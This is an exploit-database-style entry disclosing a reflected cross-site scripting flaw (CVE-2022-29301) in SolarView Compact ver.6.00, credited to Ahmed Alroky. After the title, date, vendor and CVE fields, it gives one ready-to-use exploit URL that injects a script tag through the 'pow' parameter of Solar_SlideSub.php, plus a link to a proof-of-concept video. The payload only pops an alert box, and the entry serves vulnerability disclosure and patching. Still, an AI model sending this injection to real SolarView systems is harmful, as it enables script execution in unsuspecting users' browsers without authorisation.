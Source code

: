 # Exploit Title: SolarView Compact ver.6.00 - Reflected XSS via the pow parameter
# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29301

# Tested on: Windows


# Exploit
http://IP_ADDRESS/Solar_SlideSub.php?id=4&play=1&pow=sds%22%3E%3Cscript%3Ealert(9)%3C/script%3E%3C%22&bgcolor=green


# Poc
https://drive.google.com/file/u/1/d/1hcVJLNF1Jfm6T_Im7KwJvUPC4hxdkMPV/view?usp=sharing